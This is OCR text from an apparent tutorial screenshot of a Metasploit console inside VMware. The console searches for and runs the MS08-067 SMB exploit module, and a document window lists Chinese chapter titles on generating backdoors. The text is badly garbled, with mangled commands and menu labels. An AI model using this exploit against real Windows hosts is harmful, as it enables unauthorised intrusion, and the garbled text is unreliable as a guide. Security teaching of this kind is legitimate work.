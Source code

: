 
hongkeketang·VMware Workstation
?(H)
Shell No.1 文件（F）
动作（A） 编辑（E）
查看（V）帮助（H）NMMMMMMMMMMMMO
+#++:++#+ ' oOWMMMMMMMMo
+:+ .,cdkOOK;
:+:
:+: :+:
Metasploit
=[ metasploit v5.0.93-dev
+ -- --=[ 2029 exploits - 1103 auxiliary- 344 post + -- --=[ 562 payloads - 45 encoders - 10 nops + -- --=[ 7 evasion
Metasploit tip: Enable verbose logging with set VERBOSE true msf5>search ms08-067
Matching Modules #
Name
Disclosure Date
Rank
Check
Description -
---- 0
exploit/windows/smb/ms08_067_netapi
2008-10-28
great
Yes
MS08-067 Microsoft Server Service Relative Path S tack Corruption
msf5 

eketang-VMware Workstation
编辑（E）
x 首页
临売模板
35．Metasploit：漏．docx
x
36．Metasploit．．etasploit生成后门
37．Metasploit：生成Android后门 hongkeketang
三文件
开始
页面布局
引用
章节 安全
开发工具
特色功能
Q查找
✓: 日
X■切
宋体
·四号
-AAQ
E·A··田
AaBbCcDd
AaBb AaBbC AaBbC
·
文件（F） 动作
格式期 B
IU-A·XXA·■·A·A
正文 标■1 标■2 标题3
文档助手 文字工具
查找醫換·选择· Exploit target:
世 LPOR
Id Name
Automatic Targeting Exploit
asf5 exploit(windows/smb/m_067_metapi)>run